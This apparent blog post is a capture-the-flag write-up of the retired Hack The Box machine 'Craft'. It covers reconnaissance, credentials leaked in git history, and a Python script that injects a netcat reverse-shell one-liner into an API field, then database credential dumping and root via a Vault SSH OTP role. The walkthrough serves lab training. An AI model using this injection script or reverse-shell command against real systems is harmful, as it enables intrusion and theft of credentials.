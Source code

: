 ```yaml
---
title: Hack The Box Craft Write Up.md
published: true
---
```

Hey Guys This is chan and Today craft is retired from hack the box and here is my write up about craft.It is an medium linux machine.Craft is an easy one.it is https protoco.So let’s get jump.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/craft.jpg)

# [](#header-2)Nmap Scan
```
root@ch4n:~# nmap -sC -sV 10.10.10.110

Starting Nmap 7.60 ( https://nmap.org ) at 2019-11-03 15:15 EST
Nmap scan report for 10.10.10.110
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (EdDSA)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# [](#header-3)Web Page
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/webpage.png)

So here if we check the web page there are two interesting things.These are https://api.craft.htb/api/ and https://gogs.craft.htb/

So if we look at https://gogs.craft.htb/ ,there is a git hub repo that’s call Craft/ craft/api and some user accounts 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/craft%20repo.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/craft-api%20repo.png)

So I downloaded the repo with git clone but I got the error like this
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/git%20clone%20error.jpg)

So After some goggling about this error I found the way to fix.You can check it [here](https://supportuae.wordpress.com/2018/07/23/how-to-git-clone-without-ssl-verify/)
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/git%20clone%20error%20fix.jpg)

So we got the file.I used git log -p to find the remove code 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/creds.png)
So here we got the creds.

There is another way to get creds.Here it is.
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/creds2.png)

```
dinesh:4aUh0A8PbVJxgd
```
this line is in test.py so we can  exploit test.py using this creds.If we check test.py ,it is vulnerable to command injections.  

Here is my modiefied code:
```
import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

shell = """__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.37 9001 >/tmp/f")"""

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

print("Create  ABV brew")
brew_dict={}
brew_dict['abv'] = shell
brew_dict['name'] = 'ch4n'
brew_dict['brewer'] = 'ch4n'
brew_dict['style'] = 'ch4n'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```
after running this file we got reverse shell

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/reverse%20shell.png)

```
/opt/app # ls -la
total 44
drwxr-xr-x    5 root     root          4096 Jan  3 17:28 .
drwxr-xr-x    1 root     root          4096 Feb  9  2019 ..
drwxr-xr-x    8 root     root          4096 Feb  8  2019 .git
-rw-r--r--    1 root     root            18 Feb  7  2019 .gitignore
-rw-r--r--    1 root     root          1585 Feb  7  2019 app.py
drwxr-xr-x    5 root     root          4096 Feb  7  2019 craft_api
-rwxr-xr-x    1 root     root           673 Feb  8  2019 dbtest.py
drwxr-xr-x    2 root     root          4096 Feb  7  2019 tests
```

```
/opt/app # cat dbtest.py
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()
/opt/app #
```

after getting reverse shell I check dbtest.py  then modified the script like this
```
#!/usr/bin/env python

import pymysql
from craft_api import settings
import sys
# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
       sql = sys.argv[1]
       cursor.execute(sql)
       results = cursor.fetchall()
       for i in results:
          print(i)

finally:
    connection.close()
```

Then check the tables in database then got user and pass
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/gilfoyle_creds.jpg)
So check Gilfoyle user
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/login.png)

```
gilfoyle : ZEU3N8WNM2rh4T
```

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/gilfoyle%20repo.png)

He has the repo call craft-infra.And also left ssh key

So I copied it to my machine then connect with ssh  then grab the user flag

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/user.jpg)


# [](#header-2)Privillege Escalation

In gilfoyle repo there is a file called secret.sh it it interesting

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/secret.sh.png)

```
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```
It said enable ssh engine then create otp role for root you can read [this](https://www.vaultproject.io/docs/secrets/ssh/index.html)

We have .vault token so that we can login to  the vault then create otp role for root

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/authenticate.png)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/craft/root.jpg)

In here we are with root.

So that’s it guys hope you enjoy it:-)



